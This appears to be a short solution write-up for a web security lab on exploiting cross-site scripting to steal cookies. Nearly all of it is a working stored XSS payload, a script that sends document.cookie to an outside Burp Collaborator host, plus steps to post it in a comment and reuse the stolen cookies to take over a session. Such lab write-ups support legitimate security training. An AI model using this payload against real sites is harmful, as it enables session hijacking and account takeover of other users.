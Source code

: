 # Exploiting cross-site scripting to steal cookies
Solution:
- Run burp collaborator
```js
<script>
var img = new Image();
img.src="http://48apjbo0bgtygy6wcam3nzoq7hd81x.burpcollaborator.net/?c=" + document.cookie;
</script>
```
- Post the above snippet on the comment body
- Grab the cookies and edit your cookies to the new cookies